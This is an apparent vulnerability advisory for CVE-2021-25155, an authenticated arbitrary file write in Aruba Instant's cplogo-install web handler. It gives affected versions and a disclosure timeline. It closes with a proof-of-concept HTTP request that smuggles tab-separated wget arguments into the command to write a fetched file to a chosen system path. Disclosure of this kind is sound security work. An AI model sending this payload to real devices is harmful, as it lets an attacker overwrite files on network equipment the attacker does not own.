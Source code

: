 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.6 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.0 and below'


severity: 'high'
alephid: ALEPH-2021011
cve: CVE-2021-25155
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Arbitrary File Write via Web UI (cplogo-install)'

---
```

An authenticated attacker can upload files to an arbitrary location. The issue is within the handler for the cplogo-install CLI command.
The handler for the command will not filter %09(tab) characters from the param, which can cause parameter injection into wget call.

An attacker may use this vulnerability to overwrite sensitive system files.


## POC:

```
POST /swarm.cgi HTTP/1.1
Host: IP:4343
.......
.......
.......
Cookie: sid=XXXXXXXXXXXXXXXXXXXX; login=undefined; password=undefined; userType=admin
 
opcode=config&ip=127.0.0.1&cmd='end%20%0Aapply%20cplogo-install%20"https://IP:4343/backup.cfg%09-O%09/etc/httpd/test.txt
```
